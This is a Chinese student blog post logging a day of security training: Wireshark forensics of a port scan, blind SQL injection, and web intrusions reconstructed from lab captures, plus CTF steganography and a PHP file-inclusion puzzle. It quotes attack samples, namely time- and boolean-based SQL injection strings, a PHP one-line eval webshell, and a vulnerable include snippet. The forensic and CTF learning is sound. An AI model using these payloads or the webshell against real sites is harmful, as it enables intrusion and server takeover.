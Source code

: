 ```yaml
---
layout:     post
title:      "实训记录-周二"
subtitle:   "Day-2 安全分析与电子取证实战"
date:       2025-04-22 12:00:00
author:     "hangyangjun"
header-img: "img/training.png"
tags:
    - 笔记
    - 记录
    - 实训
    - 安全
    - 渗透测试
    - 流量分析
    - 隐写
---
```

# 上午-流量分析实战
## 1 SYN半链接攻击流量分析
打开[电线鲨鱼](https://www.wireshark.org/download.html)  
分析**流量包**（.pcap）

可见大量`SYN半连接`且**端口号**都不一样  
所以攻击者在扫描网站开放端口  
过滤条件:  
`ip.src == 192.168.177.145 and tcp.flags.syn == 1 and tcp.flags.ack == 1`

## 2 SQL注入攻击流量分析一
过滤http之后  
找到攻击者使用的查询语句↓    
`id=1'and if(length(database())=0,1,0)--+`  
`id=1'and if(ascii(substr(database(),7,1))>79,1,0) --+`  
采用布尔盲注
关键词：  
you are in ...

## 3 SQL注入攻击流量分析二
过滤：  
`http and (ip.src==192.168.177.1 or ip.dst== 192.168.177.145)`   
找到攻击者使用的查询语句↓    
`id=1' and if(length(database())=1,sleep(5),0) --+`   
`id=1' and if((select%20substring(database(),1,1))="a",sleep(5),1) --+` 

是更高级的**时间盲注**

## 4 Web入侵溯源一
发现一堆  
`http.response.code == 404`  
明显是扫后台呢  
是 `head` 请求，对网站进行目录爆破  

踪流->http 流,找到↓  
`admin_name=admin&admin_pwd=密码&submit=%B5%C7%C2%BC&act=do_login`  
中的`admin_pwd`字段  
攻击者对其进行了爆破  

然后发现代码
`@eval($_POST['x']);`

a	首先，黑客通过目录扫描，获取了后台管理地址。  
b	然后通过弱口令爆破，获取到了 admin 账户的密码，登录了后台。  
c	在对后台功能进行一番探索之后，找到了 admin/tpl_manage.php 文件可以通过目录遍历查看并修改任意文件的内容。由此通过修改 `index.php` 的内容，插入了 php 一句话木马。  
d	最后，黑客向 index 页面的**一句话木马**传递 `phpinfo()` 确认了一句话写入成功。  

## 5 Web入侵溯源二
1、使用 `Wireshark` 打开 webattack2.pcap 数据包。  
2、因为是对 web 攻击进行溯源分析 ，所以我们只需要关注 `http` 协议的数据包 。所以在显示过滤器中输入 http 过滤出 http 协议的数据包。  
搜索条件:  
`http and ((ip.src==192.168.177.1 and ip.dst==192.168.177.145) or (ip.src==192.168.177.145 and ip.dst==192.168.177.1))`  
3、通过对数据包的观察，前面部分的数据包为正常访问的数据包。  
4、从数据包编号为 1544 的包开始，开始出现 `head` 请求，以及大量的 404 响应，推测黑客正在对网站进行目录**爆破**。  
5、爆破完成后，流量中出现对 `/dede/login.php` 的访问记录。因为 dede 为 dedecms 的默认后台地址。此时黑客可能已经获取到了**后台**路径，且开始尝试登陆。  
6、查看 POST 数据包的内容，发现提交内容的用户名为 admin，密码为 123456 等弱口令，猜测黑客此时在进行弱口令测试。  
7、随后，出现了 `index.php` 的**访问记录**，观察前一个数据包的返回内容，其返回的内容为 JS 跳转，跳转到 index 页面，猜测此时黑客可能已经登录成功。  
8、之后黑客访问了 dede/ad_add.php 这个页面，`dedecms` 在 5.7 版本，这个页面存在 `getshell漏洞`，黑客应该是想利用此漏洞来进行 getshell。查看黑客此次 `POST` 提交的内容。发现了一句话木马。可以证实黑客是进行了 `getshell` 的操作。  
9、之后出现了大量的对 ad_js.php 页面的 POST 请求，查看请求的内容，为 php 代码。此时黑客可能已经成功 getshell，使用菜刀工具对 `webshell` 进行了连接。  

# 下午-流量分析与二进制ctf取证

## 密码追踪
Wireshark  
过滤`http`或`ftp`
使用数据流分析即可  
好像没啥好说的
## 数据包文件分析
流量分析找到密文
## 流量数据隐写分析
藏在图片里  
## 数据包中的线索
按长度排序  
找到上传的图片，里面藏了密码  
在流量文件里分离出zip加密文件，里面藏了flag

## 文件分析(隐写)
比较简单了  
主要就是flag藏在图片二进制文件里了  
然后就是png图片改大小以及base32编码  
最后就是爆破一个压缩包

# 晚上-写了一会buuctf的题

大部分都是简单题，基本上会基础操作都能想出来。  
### 难点
<br>

```php
highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```
- 有一道题是👆  
存在文件包含漏洞  
所以在网址后传参`%file=/flag`  
即可得到flag  

- 还有一个就是**zip伪加密**，遇到好几次了  
原理就是本身文件没有加密，但是二进制标志位被标记为有加密   
可以参考：  
[csdn_zip伪加密](https://blog.csdn.net/xiaozhaidada/article/details/124538768)(其实讲的有点不准确)  

- 以及 [RAR文件格式学习（了解）](https://blog.csdn.net/Claming_D/article/details/105899397)  

- 再有就是一个爱因斯坦的图片,找了半天没找到压缩包的密码藏哪了,最后一查发现密码藏在图片属性里的备注里

- and 有一个是图片隐写,需要下一个工具 [Stegsolve](https://github.com/zer00d4y/stegsolve) 进行破解  
Red plane 0、Grenn plane 0、Blue plane0通道发现图片的上方有东西 bit order 调整为LSB即可发现隐藏信息 

